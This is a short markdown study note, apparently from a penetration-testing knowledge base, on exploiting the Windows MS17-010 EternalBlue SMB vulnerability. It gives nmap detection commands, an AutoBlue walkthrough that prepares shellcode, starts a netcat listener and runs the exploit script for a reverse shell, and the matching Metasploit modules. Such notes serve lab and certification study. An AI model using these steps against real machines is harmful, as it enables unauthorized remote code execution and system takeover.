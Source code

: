 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
---
```


# Exploiting Windows EternalBlue SMB Vulnerability

## MS17-010 EternalBlue

- name given to a collection of Windows vulnerabilities
- It was developed by the NSA and was leaked to the public by a hacker group called the Shadow Brokers in 2017
- EternalBlue exploit takes advantages of a vuln in the Windows SMBv1 protocol that allows attackers to send crafted in order to execute arbitrary commands.
- One of the biggest Windows vulnerabilities
- Many users are still using a vulnerable version

It can be exploited using [[Metasploit]] or manually using [[AutoBlue-MS17-010]].

## Demonstration

```bash
nmap -sV -p 445 -O <ip>
```

Detect if system is vulnerable:

```bash
nmap -sV -p 445 --script smb-vuln-ms17-010 <ip>
```

### Exploiting using AutoBlue

clone the repository from 3ndG4me.

First install the requirements:

```bash
pip install -r requirements
cd shellcode
./shell_prep.sh
Y
<my_ip>
1234
1234
1
1
```

Shellcode to be utilized: `sc_x64.bin`

Start a netcat listener on specified port:

```bash
nc -lvnp 1234
```

```bash
python eternalblue_exploit7.py <ip> shellcode/sc_x64.bin
```

Now on the netcat listener should be open a session!

### Exploiting using Metasploit

```bash
# check if target is vulnerable
> use auxiliary/scanner/smb/smb_ms17_010
# exploit vulnerability
> use exploit/windows/smb/ms17_010_eternalblue
> set RHOSTS <ip>
```
